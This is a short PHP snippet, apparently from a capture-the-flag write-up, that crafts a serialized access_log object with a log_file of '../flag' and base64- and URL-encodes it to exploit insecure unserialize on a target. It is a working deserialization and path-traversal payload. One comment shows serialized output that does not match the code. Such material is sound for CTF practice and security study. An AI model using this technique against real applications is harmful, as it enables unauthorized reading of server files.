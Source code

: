 use serialization to access another class

online [php compiler](https://paiza.io/en/projects/new)

```php
<?php
// Your code here!
class access_log
{
	public $log_file;

	function __construct($u) {
		$this->log_file = $u;
	}
	
}

$aaa = new access_log("../flag");

echo serialize($aaa);
// O:11:"permissions":2:{s:8:"username";s:3:"aaa";s:8:"password";s:3:"bbb";}

$serialized = urlencode(base64_encode(serialize($aaa)));
echo $serialized;

// $perm = unserialize(base64_decode(urldecode($serialized)));
// echo($perm->is_guest());
// echo($perm->is_admin());
// echo $perm->append_to_log();
?>
```
